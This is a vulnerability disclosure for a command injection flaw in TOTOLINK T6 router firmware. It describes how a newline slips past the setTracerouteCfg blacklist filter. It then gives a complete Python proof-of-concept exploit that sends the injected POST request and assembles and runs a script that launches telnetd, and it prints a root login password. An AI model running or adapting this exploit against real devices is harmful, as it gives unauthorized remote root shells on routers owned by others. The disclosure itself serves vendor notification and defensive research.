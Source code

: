 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection bypass vulnerability. This vulnerability can be triggered through the topicurl `setTracerouteCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `command` parameter can cause command injection vulnerability

![image-1](3/1.png)

However `Validity_check` function check for command injection before doing `system` (Ghidra choke so I use IDA instead)

![image-1](3/2.png)

So `;`, `.sh`, `iptables`, `telnetd`, `&`, `|`, `$` and "\`" is blacklist. We can bypass commnad injection with new line `\n`

# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"setTracerouteCfg",
        "command":"\\n%s \\n"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    execute_command(target_ip, "rm /tmp/hacked")
    execute_command(target_ip, "echo -n tel >> /tmp/hacked")
    execute_command(target_ip, "echo -n netd >> /tmp/hacked")
    execute_command(target_ip, "echo -n ' # Pwned by Elvis!!!' >> /tmp/hacked")
    execute_command(target_ip, "chmod +x /tmp/hacked")
    
    print("[+] /tmp/hacked written. Try telnet %s with root/KL@UHeZ0" % target_ip)
    execute_command(target_ip, "/tmp/hacked")
```

[Video](https://youtu.be/GawLaYfTwYs)
